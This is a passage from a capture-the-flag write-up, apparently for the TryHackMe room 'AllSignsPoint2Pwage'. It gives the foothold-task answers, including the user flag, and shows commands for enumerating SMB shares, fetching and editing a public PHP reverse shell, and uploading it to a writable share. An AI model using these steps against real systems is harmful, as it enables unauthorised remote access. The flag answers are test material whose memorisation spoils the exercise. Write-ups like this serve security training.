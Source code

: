 ```bash
:~/AllSignsPoint2Pwage# smbclient -L xx.xxx.xx.xx
```

<img width="1130" height="243" alt="image" src="https://github.com/user-attachments/assets/f7cc7694-6f97-4c29-a76f-f343287208f6" />

<br>
<br>
<br>
<h2>Task 2 . Foothold</h2>
<p>Gain a foothold on the box using what you found through enumeration.</p>

<p><em>Answer the questions below</em></p>

<p>2.1. What user is signed into the console session? Hint: <em>On the users desktop</em><br>
<code>sign</code></p>

<br>
<p>2.2. What hidden, non-standard share is only remotely accessible as an administrative account?<br>
<code>installs$</code></p>

<br>
<p>2.3. What is the content of user_flag.txt?<br>
<code>thm{48u51n9_5y573m_func710n4117y_f02_fun_4nd_p20f17}</code></p>

```bash
https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php
```

```bash
:~/AllSignsPoint2Pwage# mv php_reverse_shell.php rev.php
```

```bash
:~/AllSignsPoint2Pwage# nano rev.php
```

<img width="1128" height="353" alt="image" src="https://github.com/user-attachments/assets/02590e29-b2b3-4523-a638-7d666da38c7f" />

<br>
<br>
<br>

```bash
:~/AllSignsPoint2Pwage# smbclient //xx.xxx.xx.xx/images$
```

```bash
smb: \> put rev.php
putting file rev.php as \rev.php (16.9 kb/s) (average 16.9 kb/s)
```

<img width="1129" height="311" alt="image" src="https://github.com/user-attachments/assets/473b84fe-5d72-41aa-a017-b122a5f8613d" />

<br>
<br>
<br>
